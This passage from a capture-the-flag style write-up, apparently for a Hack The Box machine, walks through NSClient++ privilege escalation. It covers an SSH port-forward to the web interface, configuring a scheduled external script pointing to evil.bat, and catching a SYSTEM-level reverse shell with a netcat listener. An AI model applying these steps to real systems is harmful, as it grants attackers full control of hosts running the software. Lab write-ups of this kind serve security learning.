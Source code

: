 
After some more googling we can find out that WEBServer for NSClient by default listen on port 8443 so creating a tunnel which allow our localhost to access the other machine ip on that port with:

{% highlight bash %}
$ ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
{% endhighlight %}

And open the website on my chrome instance. We can also see there is a Priv Esc for NSClient++ on https://www.exploit-db.com/exploits/46802
Usually this machines doesn't need reboot but let's try to follow the process more or less. It seems the machine is not that stable but after a few tries I was able to connect to 8443 and login.

{% highlight bash %}
Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
  - section: /settings/external scripts/scripts/foobar
  - key: command
  - value: c:\temp\evil.bat

Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
  - section: /settings/scheduler/schedules/foobar
  - key: interval
  - value: 1m
  - key: command
  - value: foobar
{% endhighlight %}

This was a bit painful to run, it didn' t start automatically but when I opened: Console I saw a bunch of messages like:

{% highlight bash %}
Unknown command(s): foobar available commands: commands {, alias_cpu, alias_cpu_ex, alias_disk, alias_disk_loose, alias_event_log, alias_file_age, alias_file_size, alias_mem, alias_process, alias_process_count, alias_process_hung, alias_process_stopped, alias_sched_all, alias_sched_long, alias_sched_task, alias_service, alias_service_ex, alias_up, alias_volumes, alias_volumes_loose, check_tasksched, checktasksched, foobar}, plugins {, 0, 1}
{% endhighlight %}

so I tried to call foobar directly and... I got a root shell on nc

{% highlight bash %}
$ sudo nc -nlvvp 2443
[sudo] password for kali: 
listening on [any] 2443 ...
whoami

connect to [10.10.16.87] from (UNKNOWN) [10.10.10.184] 50557
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
{% endhighlight %}

Hope you had fun,
Matheus